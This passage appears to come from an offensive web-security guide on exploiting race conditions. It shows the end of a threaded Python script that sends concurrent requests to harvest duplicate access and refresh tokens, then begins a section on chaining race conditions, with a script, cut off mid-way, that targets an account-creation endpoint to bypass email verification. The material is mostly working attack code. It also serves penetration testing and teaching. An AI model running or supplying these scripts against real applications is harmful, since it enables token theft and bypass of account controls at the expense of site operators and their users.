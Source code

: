        # Start all threads simultaneously
       for thread in threads:
           thread.start()
       
       # Wait for all threads to complete
       for thread in threads:
           thread.join()
       
       # Check unique tokens received
       unique_access_tokens = set()
       unique_refresh_tokens = set()
       
       for result in results:
           if result:
               if 'access_token' in result:
                   unique_access_tokens.add(result['access_token'])
               if 'refresh_token' in result:
                   unique_refresh_tokens.add(result['refresh_token'])
       
       print(f"\nExploit summary:")
       print(f"Unique access tokens: {len(unique_access_tokens)}")
       print(f"Unique refresh tokens: {len(unique_refresh_tokens)}")
       ```

- **Advanced exploitation techniques**
  1. **Chaining multiple race conditions**:
     - Identify multiple race condition vulnerabilities in the application
     - Determine how they can be combined for maximum impact
     - Create a coordinated attack script that exploits multiple vulnerabilities
     - Use the output from one race condition to feed into another
     - Example Python script for chained exploitation:
     ```python
     import requests
     import threading
     import time
     
     # Step 1: Create account with race condition to bypass email verification
     def create_account_with_bypass(username, email, password):
         session = requests.Session()
         
         # Prepare account creation request
         create_req = session.post(
             "https://vulnerable-website.com/account/create",
             json={
                 "username": username,
                 "email": email,
                 "password": password
             }
         )
         
